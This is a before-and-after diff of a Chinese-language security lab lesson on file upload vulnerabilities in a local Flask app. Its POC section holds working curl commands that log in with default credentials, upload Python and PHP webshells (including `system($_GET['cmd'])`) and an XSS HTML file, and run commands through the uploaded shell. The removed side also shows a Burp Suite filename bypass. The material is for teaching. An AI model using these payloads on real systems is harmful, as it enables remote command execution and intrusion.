

Before and after one commit to mcc0624/AI-Security-Lab, a Markdown page: .claude/class/day-04-file-upload.md, the part around one of its changes. Shown at 90% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/.claude/class/day-04-file-upload.md
+++ b/.claude/class/day-04-file-upload.md
@@ -50,85 +87,61 @@ filename = file_storage.filename  # 原始文件名，如 "shell.php"
 ```
 
-**问题**：
-- 使用用户提供的原始文件名，攻击者可预测上传路径
-- 文件名可能包含路径穿越字符（如 `../../etc/shell.php`）
+不使用 UUID 或时间戳重命名，攻击者可以精确预测文件在服务器上的路径。同时可能造成路径穿越攻击。
 
 ### 漏洞 3：上传目录可直接访问
 
 ```python
 file_url = f"/static/uploads/{filename}"
-# 返回的 URL 可直接在浏览器中访问
 ```
 
-**问题**：`static/uploads/` 目录是静态文件目录，所有文件均可通过 URL 直接访问。上传的 webshell 可以直接执行。
-
----
-
-## 三、漏洞成因总结
-
-| 漏洞 | 根本原因 | 危害 |
-|------|---------|------|
-| 无服务端校验 | 定义了校验函数但未调用 | 任意文件（.php/.py/.exe）均可上传 |
-| 原始文件名 | 未重命名、未检验路径 | 重名覆盖、路径穿越 |
-| 目录可访问 | 上传到静态文件目录 | 直接通过 URL 执行 webshell |
-| 仅前端校验 | JS 校验可被 Burp Suite 绕过 | 绕过门槛极低 |
+`/static/uploads/` 目录是 Flask 静态文件目录，所有文件无需认证即可通过 URL 直接访问。
 
 ---
 
 ## 四、POC 代码
 
-### POC 1：上传任意类型文件
+### POC 1：上传 txt 文件
 
 ```bash
 # 先登录获取 session
-curl http://127.0.0.1:5000/login \
-  -d "username=admin&password=admin123" \
-  -c /tmp/cookies.txt
+curl http://127.0.0.1:5000/login -d "username=admin&password=admin123" -c /tmp/cookies.txt
 
-# 上传 Python 脚本（模拟 webshell）
-echo 'import os' > /tmp/shell.py
-echo 'print("pwned: " + os.name)' >> /tmp/shell.py
+# 上传 txt 文件
+curl http://127.0.0.1:5000/upload -b /tmp/cookies.txt -F "file=@-;filename=test.txt" <<< "hello world"
+```
 
-curl http://127.0.0.1:5000/upload \
-  -b /tmp/cookies.txt \
-  -F "file=@/tmp/shell.py"
+**预期输出**：提示"成功"。
 
-# 直接访问上传的文件
+### POC 2：上传 py 文件（模拟 webshell）
+
+```bash
+# 上传 Python 文件
+curl http://127.0.0.1:5000/upload -b /tmp/cookies.txt -F "file=@-;filename=shell.py" <<< 'import os; print("pwned")'
+```
+
+**预期输出**：提示"成功"，说明没有做文件类型限制。
+
+### POC 3：直接访问上传的文件
+
+```bash
+# 访问上传的 py 文件
 curl http://127.0.0.1:5000/static/uploads/shell.py
 ```
 
-**预期结果**：`.py` 文件被成功上传，并可通过 URL 直接访问。
+**预期输出**：显示文件内容，说明上传目录可直接访问。
 
-### POC 2：上传 PHP Webshell
+### POC 4：批量上传测试
 
 ```bash
-# 创建 PHP webshell
-cat > /tmp/cmd.php << 'EOF'
-<?php system($_GET['cmd']); ?>
-EOF
+# 尝试上传不同类型的文件
+echo '<?php system($_GET["cmd"]);?>' > /tmp/webshell.php
+curl http://127.0.0.1:5000/upload -b /tmp/cookies.txt -F "file=@/tmp/webshell.php"
 
-# 上传
-curl http://127.0.0.1:5000/upload \
-  -b /tmp/cookies.txt \
-  -F "file=@/tmp/cmd.php"
-
-# 执行命令
-curl "http://127.0.0.1:5000/static/uploads/cmd.php?cmd=id"
+echo '<script>alert("xss")</script>' > /tmp/malicious.html
+curl http://127.0.0.1:5000/upload -b /tmp/cookies.txt -F "file=@/tmp/malicious.html"
 ```
-
-### POC 3：绕过前端校验（Burp Suite）
-
-1. **浏览器上传一张正常图片 → Burp 拦截请求**
-2. 修改请求中的文件名：
-   ```
-   Content-Disposition: form-data; name="file"; filename="image.png"
-   ↓ 改为
-   Content-Disposition: form-data; name="file"; filename="shell.php"
-   ```
-3. 文件内容不变（或改为 PHP 代码）
-4. 放行请求 → 上传成功
 
 ---
 
-## 五、POC 代码测试方法（Burp Suite）
+## 五、Burp Suite 测试方法
 
````
Also changed, not shown: other parts of .claude/class/day-04-file-upload.md (+130 -134 lines).
